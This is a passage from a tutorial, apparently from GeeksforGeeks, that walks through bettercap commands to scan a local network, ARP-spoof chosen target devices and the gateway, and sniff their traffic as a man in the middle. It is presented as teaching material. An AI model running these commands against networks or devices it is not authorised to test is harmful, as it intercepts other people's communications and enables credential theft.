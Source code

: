 ![bettercap -iface](https://media.geeksforgeeks.org/wp-content/uploads/20201225114237/pic1.png)

Step 2: To show all the devices that are connected to the same network with their IP, MAC, Name, etc. Now we need to copy the IP address of the devices on which we want to sniff.  

```
net.show
```

![net.show in bettercap](https://media.geeksforgeeks.org/wp-content/uploads/20201225120424/pic2.png)

Step 3: This will provide you with the Modules of bettercap with their status ( i.e running or not running )

```
help
```

![bettercap help](https://media.geeksforgeeks.org/wp-content/uploads/20201225120926/pic3.png)

Step 4: This will send various probe packets to each IP in order and in the present subnet so that net.recon module may detect them with ease.

```
net.probe on
```

![net.probe on in bettercap](https://media.geeksforgeeks.org/wp-content/uploads/20201225133917/pic4.png)

Step 5:**** In order to attack both the targets and the gateway, we will have to set arp.spoof.fullduplex to true.

```
set arp.spoof.fullduplex true
```

Step 6:**** Set the target to the IP you can add any number of IPs here by using “,”. For example 192.168.43.157 ,192.168.43.152

```
set arp.spoof.targets 192.168.43.157(IP address of the target Device)
```

Step 7:**** Start the ARP spoofer 

```
arp.spoof on
```

![Start the ARP spoofer ](https://media.geeksforgeeks.org/wp-content/uploads/20201225134448/pic7.png)

Step 8:**** Setting it to true will consider packets from/to this computer, otherwise it will skip them. As we are MITM (man in the middle) that means all the data is transferring from our computer

```
set net.sniff.local true
```

![set net.sniff.local true](https://media.geeksforgeeks.org/wp-content/uploads/20201225134555/pic8.png)
